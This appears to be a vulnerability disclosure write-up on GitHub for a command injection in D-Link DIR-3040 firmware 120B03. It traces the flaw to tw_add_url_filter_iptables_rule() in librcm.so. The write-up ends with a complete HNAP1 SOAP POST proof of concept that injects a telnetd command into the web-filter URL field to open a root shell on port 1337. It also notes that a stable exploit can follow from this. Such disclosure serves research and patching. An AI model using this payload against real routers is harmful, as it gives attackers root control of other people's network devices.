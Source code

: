 # D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.The target function tw_ add_ url_ filter_ iptables_ rule() in the target file librcm.so,It can be found that there is command injection


## Vulnerability details

DIR-3040 libcrm.so  Keyword  tw_add_url_filter_iptables_rule().

![](../img/Snipaste_2022-10-18_10-31-13.png)

The target function tw_ add_ url_ filter_ iptables_ rule() in the target file librcm.so,It can be found that there is command injection.

Follow up nearly anonymous function FUN_ 00033750()。

![](../img/Snipaste_2022-10-18_10-34-37.png)

View the main code segment generated by the vulnerability in lines 162 to 201.

![](../img/Snipaste_2022-10-18_10-41-00.png)

![](../img/Snipaste_2022-10-18_10-37-11.png)

Pre process the url entered by the user, extract the domain name, and then execute the system function to implement site filtering. Carefully analyze this part. One of the parameters executed by the system function is the constant 1, and the other is the variable acStack544. Only this variable can be injected. Go back to line 164 to initialize acStack544 and set it to zero. A lot of operations have been done later, most of which are constant strings, The variables that appear are only 183 lines of local_268 and 188 lines of local_264. These two variables are the domain names obtained from the preprocessing mentioned above. The url processing is mainly based on/? And other special characters.

## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
	<WebFilterMethod>DENY</WebFilterMethod>
	<NumberOfEntry>1</NumberOfEntry>
	<WebFilterURLs>
		<string>www.baidu.com$(telnetd -l sh -p 1337 -b 0.0.0.0)</string>
	</WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

